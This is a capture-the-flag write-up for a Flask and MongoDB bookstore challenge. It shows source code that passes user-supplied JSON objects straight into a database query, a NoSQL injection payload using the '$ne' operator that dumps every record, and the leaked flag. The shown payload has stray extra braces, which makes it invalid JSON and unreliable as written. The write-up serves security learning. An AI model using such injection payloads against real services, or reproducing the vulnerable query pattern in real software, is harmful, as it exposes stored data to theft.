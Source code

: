 # Challenge description

Unfortunately it seems I've forgotten the name of my book...

Note: the flag format will be FLAG{...} instead of gigem{...}.

# Soluce

Here is the source code of the website:

```python
from flask import Flask, request, render_template, jsonify
from pymongo import MongoClient
import re

app = Flask(__name__)

client = MongoClient("mongodb://localhost:27017/")
db = client['aggie_bookstore']
books_collection = db['books']

def sanitize(input_str: str) -> str:
    return re.sub(r'[^a-zA-Z0-9\s]', '', input_str)

@app.route('/')
def index():
    return render_template('index.html', books=None)

@app.route('/search', methods=['GET', 'POST'])
def search():
    query = {"$and": []}
    books = []

    if request.method == 'GET':
        title = request.args.get('title', '').strip()
        author = request.args.get('author', '').strip()

        title_clean = sanitize(title)
        author_clean = sanitize(author)

        if title_clean:
            query["$and"].append({"title": {"$eq": title_clean}})  

        if author_clean:
            query["$and"].append({"author": {"$eq": author_clean}}) 

        if query["$and"]:
            books = list(books_collection.find(query))


        return render_template('index.html', books=books)

    elif request.method == 'POST':
        if request.content_type == 'application/json':
            try:
                data = request.get_json(force=True)

                title = data.get("title")
                author = data.get("author")
                if isinstance(title, str):
                    title = sanitize(title)
                    query["$and"].append({"title": title})
                elif isinstance(title, dict):
                    query["$and"].append({"title": title})

                if isinstance(author, str):
                    author = sanitize(author)
                    query["$and"].append({"author": author})
                elif isinstance(author, dict):
                    query["$and"].append({"author": author})

                if query["$and"]:
                    books = list(books_collection.find(query))
                    return jsonify([
                        {"title": b.get("title"), "author": b.get("author")} for b in books
                    ])

                return jsonify({"error": "Empty query"}), 400

            except Exception as e:
                return jsonify({"error": str(e)}), 500

        return jsonify({"error": "Unsupported Content-Type"}), 400
    
if __name__ == "__main__":
    app.run("0.0.0.0", 8000)
```

The flag is in the database, we just need to find it. This is a mongoDB database, so we will try to inject a command in the `title` field. We will use the following payload:

```json
{
    {
    "title": { "$ne": "" }
    }
}
```

This will return all the books in the database. The `$ne` operator is used to check if the value is not equal to the specified value. In this case, we are checking if the title is not equal to an empty string. This will return all the books in the database.

Then we can see the flag in the response:

```json
[{"author":"John Doe","title":"The Lost Book of Secrets"},{"author":"Arthur Conan Doyle","title":"A Study in Scarlet"},{"author":"Mark Twain","title":"The Adventures of Huckleberry Finn"},{"author":"George Orwell","title":"1984"},{"author":"Aldous Huxley","title":"Brave New World"},{"author":"Robert Louis Stevenson","title":"Treasure Island"},{"author":"System","title":"Internal Manual"},{"author":"SysAdmin","title":"Admin Operations Guide"},{"author":"QA Bot","title":"Test Entry - Ignore"},{"author":"admin","title":"FLAG{nosql_n0_pr0bl3m}"}]
```

So the flag is `FLAG{nosql_n0_pr0bl3m}`.